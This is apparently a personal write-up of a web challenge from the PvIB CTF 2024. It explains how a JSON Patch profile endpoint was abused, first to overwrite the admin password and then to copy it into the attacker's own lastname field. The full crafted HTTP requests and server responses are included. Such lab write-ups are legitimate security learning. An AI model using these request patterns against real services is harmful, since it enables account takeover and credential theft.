

# Platform voor Informatiebeveiling CTF 2024

I attended the PvIB ctf this year and came in 14th out of 50. Here I will write down the solution for the easy challenge which I solved.

## Snitch & Statch
This is a webapplication challenge and we are provided with a frontpage, login/registration page, and a profile page.


The profile page shows the fields for our profile, and gives us the option to change the first and lastname.


We will fire up Burp to see what the requests look like.

```
POST /register HTTP/1.1
Host: 192.168.100.161:5000
Content-Length: 85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.100.161:5000
Referer: http://192.168.100.161:5000/register
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=max12.1e8169af192c79d1627b4aba0bfd97682f8dc1f4e3e3c27e16b4c95c3b4a91b1
Connection: close

{
    "username":"flag1",
    "credentials":{
        "password":"flag"
    },
    "firstname":"1",
    "lastname":"2"
}
```

If we update the profile (change the lastname for instance), we will see the following request:

```
PATCH /profile HTTP/1.1
Host: 192.168.100.161:5000
Content-Length: 60
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.100.161:5000
Referer: http://192.168.100.161:5000/profile
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=1234.2277ce056b1a02b80c252a920bfc0067dafec037d1531f970f071916bbf27e64
Connection: close

[
    {
        "op":"replace",
        "path":"/1234/lastname",
        "value":"sssssss"
    }
]
```
To start, I tried to get into the admin account. The cookie seems hashed, but we can modify the /admin/ path without being authenticated as admin. 
When I replaced the /admin/credentials/password path with a self-chosen password I was able to login to the account, but that did not yield the flag. 
However, the string is the password field was hidden, and seemed like the right lenght of the flag: "************" .

Next step was to modify the JSON patch request like so:

```
PATCH /profile HTTP/1.1
Host: 192.168.100.161:5000
Content-Length: 76
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.100.161:5000
Referer: http://192.168.100.161:5000/profile
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=1234.2277ce056b1a02b80c252a920bfc0067dafec037d1531f970f071916bbf27e64
Connection: close

[
    {
        "op":"copy",
        "from":"/admin/credentials/password",
        "path":"/1234/lastname"
    }
]
```
Which got the response:

```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.10.14
Date: Mon, 24 Jun 2024 19:53:30 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 12
Connection: close

User updated
```

This yielded us the flag, which was copied from the credentials field to the lastname field which we can see.

